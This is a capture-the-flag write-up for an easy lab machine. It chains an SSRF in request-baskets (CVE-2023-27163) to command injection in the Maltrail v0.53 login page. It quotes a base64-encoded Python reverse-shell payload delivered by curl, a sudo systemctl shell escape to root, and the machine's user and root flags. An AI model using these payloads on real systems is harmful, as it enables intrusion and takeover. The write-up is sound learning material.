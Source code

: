 ```yaml
---
type: box
finished: "true"
writeup: "true"
---
```


# Notes:

### IP:
10.10.11.224
### Level:
Easy
### User flag:
aae76269af82f34d13677a7c61db2a48
### Root flag:
c5b4ba7e6f9f1d81ec295f0c28e08ac8


# Nmap

### Nmap gives the following output
```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 06 Nov 2023 16:33:37 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 06 Nov 2023 16:33:11 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 06 Nov 2023 16:33:11 GMT
|_    Content-Length: 0

```
### With this command
```
nmap -p- -sV -sC 10.10.11.224
```

# Web

Accessing both the 80 port and 8338 port gives us no response on Firefox.
<b>However</b> the :55555 port gives us something:
![[pictures/website.png]]

A request basket webpage. Googling a bit around allows us to find that version 1.2.1 and under is vulnerable to a SSFR attack. Checking the version on the webpage to see if we have that version and...

![[./pictures/baskets-version.png]]
### <b>bingo</b>

# SSRF with **[CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)**:

Cloning the repository and using the script, we can make the server redirect itself to the other ports we found earlier in the nmap scan, specifically port 80 and port 8338.

We can run these commands that gives us the URL's that redirects to itself with their ports.
```
./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:8338
```
and
```
./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
```

Going to the new basket we have created redirects us to those ports where this strange website is hosted:
![[./pictures/Maltrail-website.png]]

This really gives us nothing. We see that there is a log in button, however it's not clickable. Nor does it have a link that redirects in the html. HOWEVER! On the bottom of the page we see something interesting once more:

![[./pictures/Maltrail-version.png]]

Googling "Maltrail (v0.53)" led me to this https://github.com/spookier/Maltrail-v0.53-Exploit GitHub page. So as the github page describes. There is a RCE (Remote Code Execution) vulunrability in the login page for Maltrail version 0.53. This must be the "Log In" button we saw previously. So by pure chance I wanted to see if there is a directory called login and...

![[./pictures/Maltrail-login.png]]

### Bingo (again)

So we know there is a login page. We can either use the this nice person's repo, or you can manually send a request via curl, where the data is a reverse shell that's 64 encoded, and decoded using bash on the server's side. OR you can download the script and run it.

If you're curious what the script does:

```python
payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''

encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64

command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
```

This is the main part of the script. The **payload** is a reverse shell that uses python to spawn a shell. The **encoded payload** is just the base64 encoded version of that very payload. Finally the **command** is the request that RCE's the username field with a simple semicolon and then decrypts our payload on the server and runs it.

Pulling all of this together or running the script and...

![[./pictures/we're-in.png]]
## **We're in**

Navigating to /home/puma we can now cat out the file user.txt and get:
![[./pictures/user.txt.png]]

# Privilege escalation with # Systemctl:

This one was kind of a cakewalk.

Doing the command `sudo -l` is a quick way to find any privilage escalations, because it lists every command our user can run as root using the sudo command. We then get the output:

```
$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

We can run the the command `sudo systemctl status trail.service` with no password what so ever. This article goes more in depth on what you can do to privilege escalate with Systemctl: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/

We can just run `sudo systemctl status trail.service` and spawn a shell with `!sh` and boom! We are now root. All we have to do now is cat out the contents of /root/root.txt and:

```
# cat /root/root.txt
c5b4ba7e6f9f1d81ec295f0c28e08ac8
```

**In conclusion**: The user flag was very hard to get conceptually and the one I was stuck on. I knew that there was a SSFR, however I didn't know what to do with it. After knowing you could redirect into it's own ports, the challenge became a lot more feasible. I didn't write any of my own scripts with this challenge so hopefully there will come a time in the future for that.